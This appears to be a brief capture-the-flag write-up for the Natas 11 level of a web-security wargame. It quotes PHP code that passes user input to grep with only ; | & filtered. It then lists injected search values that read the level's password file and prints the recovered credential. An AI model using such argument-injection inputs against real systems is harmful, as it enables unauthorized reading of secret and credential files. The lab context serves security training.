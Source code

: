 ### Natas 11
This one was same as the previous one, except this time we are not allowed to use many characters.
```
if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
```
I found 2 very functional solution, 
1. `.* /etc/natas_webpass/natas11 #`
2. `Trial and error [a-z] /etc/natas_webpass/natas11`
3. `abcdefghijklmnopqrstuvwxyz /etc/natas_webpass/natas11`

I ended up googling like an idiot and I feel so ashamed of it.


### Creds
```
natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```


 ~Kurama
